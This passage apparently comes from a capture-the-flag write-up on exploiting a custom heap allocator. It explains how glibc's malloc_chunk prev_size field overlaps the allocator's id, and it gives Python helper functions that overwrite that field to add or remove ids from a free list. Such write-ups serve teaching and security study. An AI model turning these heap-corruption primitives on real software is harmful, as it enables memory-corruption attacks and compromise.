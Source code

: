 A typical `malloc_chunk` looks like this:

```c
struct malloc_chunk {
  INTERNAL_SIZE_T      mchunk_prev_size;  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      mchunk_size;       /* Size in bytes, including overhead. */
  struct malloc_chunk* fd;         /* double links -- used only if free. */
  struct malloc_chunk* bk;
};
```

Because `c->id` occupies the same space as a `malloc_chunk`'s `mchunk_prev_size` member, the `prev_size` of the glibc heap chunk is taken as the `id` in  `find_id`. The glibc chunk pointers allocated by `strdup()` will _never_ be free, so `prev_size == id` should always be 0, and `find_id(c->id)` should always result in an error given a glibc heap chunk.

Or not.

## The Obvious Solution

It takes me a while, but I eventually realise that the preceding paragraph is false. Sequential malloc chunks can use the `prev_size` field to store user data:

![](/assets/prev_size.png)

This means that if I call `strdup("A"*0x17)` twice in succession, the first `strdup()` chunk allocated can be used to overwrite the `prev_size` of the 2nd `strdup()` chunk:

```python
strdup(b''.rjust(0x17,b'a'), 0)
strdup(b''.rjust(0x17,b'a'), 1)
edit(0, b''.rjust(0x17,b'a'))
```

![](/assets/prev_size2.png)

Using this method, the interpreted `mchunk->id` for a glibc heap chunk can be modified to any value within `range(0, 1<<56)`.

```python
# register an arbitrary 56-bit id onto the mound's free id list
def reg_id(id: int):
    strdup(b'a'*0x17, 0)
    strdup(b'a'*0x17, 1)
    edit(0, pack(id)[:7].rjust(0x17, b'a'))
    free(0)
```

What are the consequences of this? Adding a new `id` to `mound_arena.ids[]` is pretty useless; it would only make allocations _harder_ instead of easier. I could also try to get rid of an ID:

```python
def r64(): return randint(0, (1<<64)-1) # generate random ids. Unrelated to rand64bit()
def rm_id(id: int): # remove an arbitrary 56-bit id from mound_arena.ids[]
    strdup(b'a'*0x17, 0)
    strdup(b'a'*0x17, 1)
    edit(0, pack(r64())[:7].rjust(0x17, b'a'))
    free(1)
    edit(0, pack(id)[:7].rjust(0x17,b'a'))
    add(0x10, 2, b'a'*0x10)
```
